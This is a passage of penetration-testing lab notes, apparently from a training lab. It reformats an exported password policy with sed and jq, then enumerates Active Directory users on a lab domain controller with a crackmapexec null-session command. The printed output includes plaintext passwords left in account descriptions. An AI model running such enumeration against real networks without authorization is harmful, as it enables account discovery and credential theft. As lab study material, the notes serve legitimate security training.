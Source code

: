 ### Formating exported file

```
sed -i "s/'/\"/g" passpol.txt
cat passpol.txt | jq
{
 "min_pass_len": 1,
 "pass_hist_len": 24,
 "max_pass_age": "41 days 23 hours 53 minutes ",
 "min_pass_age": "1 day 4 minutes ",
 "pass_prop": "000000",
 "rst_accnt_lock_counter": "30 minutes ",
 "lock_accnt_dur": "30 minutes ",
 "accnt_lock_thres": "None",
 "force_logoff_time": "Not Set"
}
```


### Enumerating Users

```
crackmapexec smb 10.129.203.121 -u '' -p '' --users --export $(pwd)/users.txt

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-] Error enumerating
domain users using dc ip 10.129.203.121: NTLM needs domain\username and a
password
SMB 10.129.203.121 445 DC01 [*] Trying with SAMRPC
protocol
SMB 10.129.203.121 445 DC01 [+] Enumerated domain
user(s)
SMB 10.129.203.121 445 DC01
inlanefreight.htb\Guest Built-in account for
guest access to the computer/domain
SMB 10.129.203.121 445 DC01
inlanefreight.htb\carlos
SMB 10.129.203.121 445 DC01
inlanefreight.htb\grace
SMB 10.129.203.121 445 DC01
inlanefreight.htb\peter
SMB 10.129.203.121 445 DC01 
inlanefreight.htb\alina Account for testing HR
App. Password: HRApp123!
SMB 10.129.203.121 445 DC01
inlanefreight.htb\noemi
SMB 10.129.203.121 445 DC01
inlanefreight.htb\engels Service Account for
testing
SMB 10.129.203.121 445 DC01
inlanefreight.htb\kiosko
SMB 10.129.203.121 445 DC01
inlanefreight.htb\testaccount pwd: Testing123!
SMB 10.129.203.121 445 DC01
inlanefreight.htb\mathew
SMB 10.129.203.121 445 DC01
inlanefreight.htb\svc_mssql
```

